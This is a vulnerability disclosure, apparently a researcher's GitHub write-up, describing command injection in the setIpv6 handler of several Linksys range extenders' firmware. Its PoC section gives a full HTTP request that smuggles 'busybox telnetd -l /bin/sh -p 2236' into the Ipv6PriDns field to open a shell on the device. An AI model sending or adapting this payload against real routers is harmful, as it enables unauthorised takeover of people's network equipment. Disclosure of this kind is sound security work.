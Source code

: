 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `mod_form.so` binary:

In `setIpv6` function, `Ipv6PriDns、Ipv6SecDns、Ipv6StaticGateway、LanIpv6Addr、LanPrefixLen、pppoeUser、pppoePass、pppoeIdleTime、pppoeRedialPeriod、Ipv6in4_PrefixLen、LocalIpv6、RemoteIpv4、LanIPv6_Prefix、LanPrefixLen、ipv6to4Relay、ipv6rdRelay、tunrd_PrefixLen、wan_UseLinkLocal、Ipv6StaticIp、Ipv6PrefixLen` is directly passed by the attacker, so we can control the `Ipv6PriDns、Ipv6SecDns、Ipv6StaticGateway、LanIpv6Addr、LanPrefixLen、pppoeUser、pppoePass、pppoeIdleTime、pppoeRedialPeriod、Ipv6in4_PrefixLen、LocalIpv6、RemoteIpv4、LanIPv6_Prefix、LanPrefixLen、ipv6to4Relay、ipv6rdRelay、tunrd_PrefixLen、wan_UseLinkLocal、Ipv6StaticIp、Ipv6PrefixLen` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `nvram_bufset ` to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/2.png" style="zoom:60%;" /></div>

`mod_form.so->ipv6cmd`

In `ipv6cmd` binary:

Eventually, the initial input will be extracted and cause command injection.

<div  align="center"><img src="./images/3.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `Ipv6PriDns` as **`busybox telnetd -l /bin/sh -p 2236`** , and the router will excute it,such as:

```http
POST /goform/setIpv6 HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 177
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/wireless/wireless_basic.shtml
Cookie: session_id=ZLiI3MEuHkfEl1nvug1MTWxYivmvElzl
Upgrade-Insecure-Requests: 1

ipv6connType=1&Ipv6PriDns=`busybox telnetd -l /bin/sh -p 2236`&Ipv6SecDns=&manuallyDNS=&EnDhcpPD=&Ipv6StaticIp=&Ipv6PrefixLen=&Ipv6StaticGateway=&wan_UseLinkLocal=&LanPrefixLen=
```



## Result

Get a shell!

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

